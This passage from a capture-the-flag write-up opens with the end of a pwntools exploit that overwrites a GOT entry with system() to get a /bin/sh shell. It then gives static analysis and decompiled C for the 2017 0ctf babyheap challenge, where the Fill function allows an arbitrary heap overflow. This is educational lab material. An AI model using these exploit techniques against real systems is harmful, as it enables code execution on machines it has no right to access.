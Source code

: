 ```python

payload = p32(elf.got['strlen']).ljust(20, b'a')
add_rifle(b'a' * 20, payload)
# gdb.attach(r)
log.success('system addr: ' + hex(sys_addr))
# gdb.attach(r)
level_message(p32(sys_addr) + b';/bin/sh\x00')

r.interactive()
```

### 2017 0ctf babyheap
#### Static analysis

- The program is a heap allocator, which contains the following five functions:
  - `Allocate`
  - `Fill`
  - `Free`
  - `Dump`
  - `Exit`

- After analyzing the program, it was found that the vulnerability point is in the `Fill` function. The function that reads the content directly reads the content of the specified length and does not set the end of the string. Moreover, this specified length is specified, not the length specified when the `chunk` allocation was previously, so there is a situation of arbitrary heap overflow here

```c
__int64 __fastcall fill(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result <= 0xF )
  {
    result = *(unsigned int *)(24LL * (int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = sub_138C();
      v3 = result;
      if ( (int)result > 0 )
      {
        printf("Content: ");
        return sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
  }
  return result;
}
```
